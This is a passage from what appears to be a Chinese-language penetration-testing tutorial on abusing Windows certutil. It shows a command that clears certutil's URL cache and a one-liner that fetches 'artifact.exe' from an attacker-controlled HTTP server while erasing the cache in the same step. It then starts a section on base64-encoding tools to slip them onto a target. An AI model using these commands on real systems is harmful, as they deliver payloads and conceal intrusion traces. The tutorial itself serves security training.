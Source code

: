 执行删除缓存

```plain
certutil -urlcache * delete
```

[![](assets/1701612219-64f8709584164bbe48186861bfccb489.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152052-8ddf1d7e-ca85-1.png)

这里如果嫌麻烦的话可以在下载文件的时候加上一个`delete`参数，这样就省去了后面再来清理缓存的麻烦

```plain
certutil & certutil -urlcache -split -f http://172.20.10.4:8000/artifact.exe delete
```

# certutil base64加解密

之前在实战中就碰到过需要进行内网穿透的时候，代理软件上传不到靶机的情况

[![](assets/1701612219-c9f87b1904138d9f7a2d3035e02af2ab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152053-8e63f40e-ca85-1.png)

这里我上传图片测试能够上传成功

[![](assets/1701612219-e89cd1858ea02c41685ad0bddb2c8d46.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152054-8ed30c4a-ca85-1.png)
